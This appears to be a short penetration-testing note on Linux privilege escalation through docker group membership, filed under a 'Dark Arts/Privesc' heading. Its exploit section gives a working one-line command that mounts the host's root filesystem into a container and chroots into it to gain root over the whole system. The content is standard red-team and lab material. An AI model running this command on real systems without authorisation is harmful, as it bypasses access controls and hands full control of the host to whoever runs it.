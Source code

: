 -- -
Basically, you run a docker container, mount the filesystem onto it, then chroot into the container. You will be root on said container with the entire filesystem mounted to it, so in essence you are root on the filesystem. 
[[Dark Arts/Privesc/Linux/Enumeration/Docker|Enum]]
#### Exploit
```bash
# require you are able to run docker w/o sudo, i.e. you are part of the docker group. See enum for how to check.
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```